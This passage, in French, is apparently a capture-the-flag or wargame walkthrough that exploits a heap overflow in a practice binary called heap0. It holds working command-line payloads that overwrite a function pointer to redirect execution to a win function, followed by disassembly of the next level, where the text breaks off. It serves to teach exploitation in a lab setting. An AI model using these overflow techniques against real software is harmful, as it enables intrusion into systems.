On voit que deux `malloc` sont effectués, le premier sur une taille de 64 bits et le second sur une taille de 4 octets (dword). Ce dernier est initialisée à l'adresse de `nowinner`  qui est une fonction qui nous indique que le l'exercice n'est pas résolu.

Il s'agit donc d'un pointeur de fonction qui est appellé à la fin du code, après le `strcpy()`. Ce `strcpy()` est vulnérable puisqu'il copie le première paramètre passé au binaire via la ligne de commande vers la zone de 64 octets, le tout sans aucune vérification.

Il est donc possible d'écraser les données qui sont plus loin et donc le pointeur de fonction. Dans le code se trouve aussi une fonction `win` non utilisée qu'il faut bien sûr faire en sorte d'appeller.

```bash
$ ./heap0 yolo
data is at 0x804a008, fp is at 0x804a050
level has not been passed
```

Il semble qu'il y ait 72 octets entre notre buffer de données et le pointeur de fonction. On peut le vérifier :

```bash
$ ./heap0 `python -c 'print "A"*72 + "BBBB"'`
data is at 0x804a008, fp is at 0x804a050
Segmentation fault
$ dmesg | tail -1
[263220.472338] heap0[6640]: segfault at 42424242 ip 42424242 sp bffffc8c error 4
```

Plus qu'à écraser ce pointeur par l'adresse de `win` :

```bash
$ ./heap0 `python -c 'import struct; print "A"*72 + struct.pack("<I", 0x08048464)'`
data is at 0x804a008, fp is at 0x804a050
level passed
```

## Level 1

Pour ce level toute la logique se trouve dans la fonction `main()` :

```nasm
int main (int argc, char **argv, char **envp);
; arg char **envp @ ebp+0xc
; var const char *src @ esp+0x4
; var void **var_14h @ esp+0x14
; var void **var_18h @ esp+0x18
0x080484b9      push ebp
0x080484ba      mov ebp, esp
0x080484bc      and esp, 0xfffffff0
0x080484bf      sub esp, 0x20
0x080484c2      mov dword [esp], 8 ; size_t size
0x080484c9      call malloc        ; sym.imp.malloc ; void *malloc(size_t size)
0x080484ce      mov dword [var_14h], eax
0x080484d2      mov eax, dword [var_14h]
0x080484d6      mov dword [eax], 1
0x080484dc      mov dword [esp], 8 ; size_t size
0x080484e3      call malloc        ; sym.imp.malloc ; void *malloc(size_t size)
0x080484e8      mov edx, eax
0x080484ea      mov eax, dword [var_14h]
0x080484ee      mov dword [eax + 4], edx
0x080484f1      mov dword [esp], 8 ; size_t size
0x080484f8      call malloc        ; sym.imp.malloc ; void *malloc(size_t size)
0x080484fd      mov dword [var_18h], eax
0x08048501      mov eax, dword [var_18h]
0x08048505      mov dword [eax], 2
0x0804850b      mov dword [esp], 8 ; size_t size
0x08048512      call malloc        ; sym.imp.malloc ; void *malloc(size_t size)
```